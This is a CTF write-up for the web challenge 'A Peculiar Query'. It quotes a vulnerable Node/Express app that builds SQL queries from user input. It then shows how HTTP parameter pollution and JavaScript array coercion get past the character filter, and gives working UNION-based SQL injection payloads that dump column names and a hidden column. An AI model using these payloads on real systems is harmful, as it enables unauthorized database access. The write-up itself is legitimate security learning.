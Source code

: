 # **A Peculiar Query (180pts) (73 Solves)**

![TASK](https://imgur.com/A6EHPkW.png)

I really liked this web task , we are given this web page that have a search functionality 

![TASK](https://imgur.com/gRutDcV.png)

And we can read the source code 

```javascript

const express = require("express");
const rateLimit = require("express-rate-limit");
const app = express();
const { Pool, Client } = require("pg");
const port = process.env.PORT || 9090;
const path = require("path");

const client = new Client({
	user: process.env.DBUSER,
	host: process.env.DBHOST,
	database: process.env.DBNAME,
	password: process.env.DBPASS,
	port: process.env.DBPORT
});

async function query(q) {
	const ret = await client.query(`SELECT name FROM Criminals WHERE name ILIKE '${q}%';`);
	return ret;
}

app.set("view engine", "ejs");

app.use(express.static("public"));

app.get("/src", (req, res) => {
	res.sendFile(path.join(__dirname, "index.js"));
});

app.get("/", async (req, res) => {
	if (req.query.q) {
		try {
			let q = req.query.q;
			// no more table dropping for you
			let censored = false;
			for (let i = 0; i < q.length; i ++) {
				if (censored || "'-\".".split``.some(v => v == q[i])) {
					censored = true;
					q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
				}
			}
			q = q.substring(0, 80);
			const result = await query(q);
			res.render("home", {results: result.rows, err: ""});
		} catch (err) {
			console.log(err);
			res.status(500);
			res.render("home", {results: [], err: "aight wtf stop breaking things"});
		}
	} else {
		res.render("home", {results: [], err: ""});
	}
});

app.listen(port, function() {
	client.connect();
	console.log("App listening on port " + port);
});

```

## Overview ##

It's pretty obvious that we have an sql injection here ( we are concatenating the user input )
> 	const ret = await client.query(`SELECT name FROM Criminals WHERE name ILIKE '${q}%';`);

But as we can see some filters are here :'( these characters are filtered : [',-,",.] , after some tries i have figured that it will impossible to bypass 
them so i started looking to some JS tricks.
As we can see the filter function is looping over our input and checks if there are some prohibited characters and then it will replace 
them with "*" , For example if we type 
> hello"or 1=1 -- -

Our input will be changed to :
> hello************

```javascript
let q = req.query.q;
let censored = false;
for (let i = 0; i < q.length; i ++) {
	if (censored || "'-\".".split``.some(v => v == q[i])) {
			censored = true;
			q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
			}
}
```			

And finally it's using substring function to limit our input's length to 80 characters

```javascript
q = q.substring(0, 80);
const result = await query(q);
res.render("home", {results: result.rows, err: ""});
```
Hmmm everything seems okay nah ? but it's a ctf web task we have to find some vulnerabilities ! let's pass to how i did to solve it now, enough boring things

## Exploitation ##

The first thing i thinked about was http parameter pollution in express (read about it **[HERE](https://github.com/expressjs/express/issues/1824)** if you want ) ,briefly when we enter a get parameter multiple times express 
has a weird interpretation , it will process this parameter as an array for example here, if we pass this in the query :
> ?q=hello&q=allo&q=fword

**req.query.q** will be parsed as an array **["hello","allo","fword"]** , so if we go further when we will be iterating of **q** variable we will be comparing each array field with the filters 
for example, if we pass this query :
>q="or 1=1 -- -&q=fword

we will firstly compare **"or 1=1 -- -** and then the second field **fword** with these filtered chars **[',-,",.]** , they are not equal ! , Youupi we can get our flag now as we passed the check .

Unfortunately , it's not that easy ,have you forgot the substring function ? an array has not a built in substring function so when we reach the substring part this will raise an error so we won't execute the sql query :/
Javascript weird behaviour will save us this time ! if we do **[]+[]** the result is a string , the sum of two arrays is a string so if we enter a **"** in one query parameter
we will enter this part 

```javascript
censored = true;
q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
```
and arrays have a built in slice function so the result of **[]+"*"+[]** will be a string , we can now enter our payload with **q='** in the end to ensure that our array will be a string when it reaches the substring part
For example :
>q='or 1=1 -- -&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q='

will let us pass !

**FILTERS BYPASSED SUCCESSFULLY**

To test the number of q parameters and debug the app , i changed a little bit the source code and hosted the web app locally , you can find the modified source code **[HERE](https://github.com/kahla-sec/CTF-Writeups/blob/master/%C3%A5ngstromCTF2k20/A%20Peculiar%20Query/app.js)** if you want to test :D

![TASK](https://imgur.com/upRUoxR.png)


The next part is pretty classic , a simple sql injection , we will first dump the columns name (we know the table name from the source code)
> q=%27union%20SELECT%20column_name%20FROM%20information_schema.columns%20--%20-&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=%27

![TASK](https://imgur.com/XAVrsrR.png)


and finally we find a column named **crime** so our final payload will be :
>HOST/?q=%27union%20SELECT%20crime%20FROM%20criminals%20--%20-&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=a&q=%27

![TASK](https://imgur.com/7KWe6dF.png)

And Congratulations ! I want to thank the organizers for this great CTF and fun tasks , i have really enjoyed participating

